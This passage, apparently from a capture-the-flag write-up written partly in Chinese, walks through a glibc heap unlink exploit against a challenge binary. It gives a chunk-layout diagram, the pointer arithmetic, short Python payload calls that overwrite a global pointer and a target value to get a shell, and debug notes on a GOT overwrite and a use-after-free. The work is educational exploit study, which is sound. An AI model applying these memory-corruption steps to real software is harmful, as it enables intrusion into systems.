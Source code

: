 ```
+------------------+------------------+ <-- ※fake_ck = ary[0], 0x603260
| mchunk_prev_size |   mchunk_size    |
+------------------+------------------+
|        fd        |        bk        |
+------------------+------------------+
|    fd_nextsize   |    bk_nextsize   |
+------------------+------------------+
|       ....       |       ....       |
```

Since there are operation `FD->bk = BK; BK->fd = FD;`. After first edit: `BK->fd == array[0]` will be `addr_array - 0x18` which is 0x6020c8.

We can edit 1st ddl again and modify `array[0][24]` (which is at `0x6020c8+24 == 0x6020e0 == &array[0]`)  to `&targetID`

```python
edit_ddl_conn(index=1, time_nolf=p192(0)+p64(addr_targetID))
```

Then, since `array[0]` is now `&targetID`, we can edit `array[0][0]` to deference `&targetID` and modify `targetID`'s value..

```
edit_ddl_conn(index=1, time_nolf=p64(3180103012) + b'\n')
```

Then check and get shell:

<img src="assets/image-20210528103015011.png" style="zoom:50%;" />

# Problem

## Debug Log

1. 虽然fd和chunk有个0x10的偏移，但是在修改B的时候是用`edit_ddl_conn(2, p64(got_exit))`而不是`edit_ddl_conn(2, b'a' * 10 + p64(got_exit))`，因为要修改的是内核态的fd，这个东西才能指向下一个空chunk。

2. 绝了原来是真有一个函数叫backdoor，我以为是自己通过ROP的方法去构造一个backdoor，还研究了半天这要怎么去改stack来传参。下次看源码要注意。

3. +8#16而不是+16#16是因为mchunk_prev_size可以和上一个的最后八位复用

4. 注意array和array[0]的不同：

    * 不行：<img src="assets/image-20210527151419558.png" style="zoom: 80%;" /><img src="assets/image-20210527151428113.png" style="zoom: 80%;" />

    * 可以：<img src="assets/image-20210527152145087.png" style="zoom:80%;" />

5. 让`P->fd_nextsize`为0来绕过那一块block，所以不如以后payload的填充都用'\\0'好了

## Thoughts

### UAF
